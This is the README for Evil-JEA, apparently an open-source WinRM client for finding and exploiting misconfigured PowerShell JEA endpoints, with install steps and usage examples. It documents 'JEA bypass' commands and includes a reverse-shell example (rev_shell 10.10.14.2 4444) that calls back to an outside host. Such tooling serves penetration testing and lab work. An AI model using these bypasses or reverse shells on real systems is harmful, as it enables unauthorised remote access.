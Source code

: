 Evil-JEA
========

A small WinRM client designed for interacting with JEA endpoints.

Installation
------------

From PyPi:

::

   pip install evil-jea

From source:

::

   git clone https://github.com/sashathomas/evil-jea
   cd evil-jea
   make install
   make build

Usage
-----

::

   Usage: evil-jea [OPTIONS] COMMAND [ARGS]...

     ___________     .__.__                 ____.___________   _____   
     \_   _____/__  _|__|  |               |    |\_   _____/  /  _  \  
      |    __)_\  \/ /  |  |    ______     |    | |    __)_  /  /_\  \ 
      |        \\   /|  |  |__ /_____/ /\__|    | |        \/    |    \
     /_______  / \_/ |__|____/         \________|/_______  /\____|__  /
             \/                                          \/         \/ 
                                                                                                                              
         

   Options:
     -v, --verbose  Enable verbose output.
     --help         Show this message and exit.

   Commands:
     connect  Connect to JEA target.
     run      Run a single command on the JEA target.
     shell    Attempts to run a reverse shell on the target using a call...
     version  Get the library version.

JEA Shell
---------

Once connected to a shell, evil-jea offers a couple custom commands to
help find and exploit common JEA misconfigurations:

::

   [10.10.10.210]: PS> help

   JEA Shell Commands:
       help                    Show list of available commands
       info [command]          Dump definitions for available commands. 
       call [command]          JEA bypass: Attempts to run [command] using call operator 
       function [command]      JEA bypass: Attempts to run [command] inside of a custom function
       rev_shell [ip] [port]   JEA bypass: Attempts to run a PowerShell reverse shell using call operator

Examples
--------

Connect to JEA endpoint:

::

   evil-jea connect username password 10.10.10.10

Run single command on JEA endpoint:

::

   evil-jea run username password 10.10.10.10 "Get-Command"

Try to run a PowerShell reverse shell using a call operator bypass:

::

   [10.10.10.210]: PS> rev_shell 10.10.14.2 4444

License
-------

Copyright (c) sashathomas

Permission is hereby granted, free of charge, to any person obtaining a
copy of this software and associated documentation files (the
“Software”), to deal in the Software without restriction, including
without limitation the rights to use, copy, modify, merge, publish,
distribute, sublicense, and/or sell copies of the Software, and to
permit persons to whom the Software is furnished to do so, subject to
the following conditions:

The above copyright notice and this permission notice shall be included
in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED “AS IS”, WITHOUT WARRANTY OF ANY KIND, EXPRESS
OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT.
IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY
CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT,
TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE
SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

